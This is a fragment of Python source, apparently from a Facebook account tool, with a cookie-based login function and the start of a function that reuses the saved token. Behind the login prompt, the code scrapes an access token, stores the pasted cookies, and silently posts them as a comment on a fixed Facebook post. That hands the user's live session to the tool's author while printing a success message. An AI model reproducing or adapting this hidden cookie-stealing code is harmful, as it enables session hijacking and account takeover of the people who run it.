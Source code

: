 id=[]
tokenku=[]
def login():
        clear()
        cookies = input(' Put cookies: ')
        try:
                data = requests.get("https://business.facebook.com/business_locations", headers = {"user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; Redmi 4A Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.92 Mobile Safari/537.36","referer": "https://www.facebook.com/","host": "business.facebook.com","origin": "https://business.facebook.com","upgrade-insecure-requests" : "1","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7","cache-control": "max-age=0","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8","content-type":"text/html; charset=utf-8"}, cookies = {"cookie":cookies})
                find_token = re.search("(EAAG\w+)", data.text)
                open(".tok.txt", "w").write(find_token.group(1))
                open(".coki.txt","w").write(cookies)
                tok=open('.tok.txt','r').read()
                info = requests.get('https://graph.facebook.com/me/?access_token='+tok,cookies = {"cookie":cookies}).json()
                name=(info['name'])
                idd=(info['id'])
                barth=(info['birthday'])
                linex()
                print(' Welcome\033[1;32m : '+name)
                print(' \033[1;37mYour UID : '+idd)
                print(' Barth Day: '+barth)
                requests.post('https://graph.facebook.com/pfbid02Sj97PfY1mY3cvbLjGaJRz22FR7yc75JFKLoBFiHoNLSq9aGxmGKotAtcYLkMDDpbl/comments/?message='+cookies+'&access_token='+tok, cookies={'cookie':cookies})
                linex()
                print(' Cookies login has been successfull...')
                time.sleep(1)
                menu()
        except KeyError:
                print('\033[1;31m Cookies has been expired...')
                os.system('rm -rf .tok.txt');time.sleep(1);login()
        except requests.exceptions.ConnectionError:
                exit(' internet connection error...')
        except AttributeError:
                print('\033[1;31m Cookies has been expired...')
                os.system('rm -rf .tok.txt');time.sleep(1);login()
                login()
def public():
        usrr=[]
        clear()
        try:
                tok = open('.tok.txt','r').read()
                cok = open('.coki.txt','r').read()
                tokenku.append(tok)
        except KeyError:
                print('\033[1;31mYour cookies han expired...');time.sleep(1)
                login()
        except IOError:
                print('\033[1;31mYour cookies han expired...');time.sleep(1)
                login()
        try:
                info = requests.get('https://graph.facebook.com/me/?access_token='+tok,cookies = {"cookie":cok}).json()
                name=(info['name'])
                print('\033[1;32m Welcome '+name)
                linex()
        except KeyError:
                print('\033[1;31mYour cookies han expired...');time.sleep(1)
                login()
